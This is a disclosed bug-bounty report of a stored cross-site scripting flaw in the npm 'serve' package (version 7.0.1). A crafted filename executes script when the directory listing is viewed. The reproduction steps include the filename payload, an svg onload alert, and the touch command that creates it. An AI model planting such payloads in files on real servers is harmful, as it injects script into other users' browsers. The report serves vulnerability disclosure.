 # [serve] Stored XSS in the filename when directories listing

## Report Details
- **Report ID**: 358641
- **URL**: https://hackerone.com/reports/358641
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-29T05:53:21.938Z
- **Disclosed**: 2018-10-19T07:53:28.886Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Stored XSS issue in module **serve**
It allows executing malicious javascript code in the user's browser.

# Module

**module name:** serve
**version:** 7.0.1
**npm page:** `https://www.npmjs.com/package/serve`

## Module Description

Assuming you would like to serve a static site, single page application or just a static file (no matter if on your device or on the local network), this package is just the right choice for you.

It behaves exactly like static deployments on Now, so it's perfect for developing your static project. Then, when it's time to push it into production, you deploy it.

Furthermore, it also provides a neat interface for listing the directory's contents

# Vulnerability

## Steps To Reproduce:

* Install the module

`$ npm i serve`

* Run

`$ ./node_modules/serve/bin/serve.js`

* In the target directory, create a file with name `"><svg onload=alert(3333333);`

`bash$ touch '"><svg onload=alert(3333333);'`

* In the browser, go to http://127.0.0.1:3000/, the XSS popup will fire.

{F302807}

## Supporting Material/References:

* macOS High Sierra 10.13.4
* node v8.10.0
* npm 6.1.0
* Chrome Version 66.0.3359.139 (Official Build) (64-bit)

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows executing malicious javascript code in the user's browser.

The hacker selected the **Cross-site Scripting (XSS) - Stored** weakness. This vulnerability type requires contextual information from the hacker. They provided the following answers:

**URL**
http://127.0.0.1:3000/

**Verified**
Yes



## Attachments
- serve.png
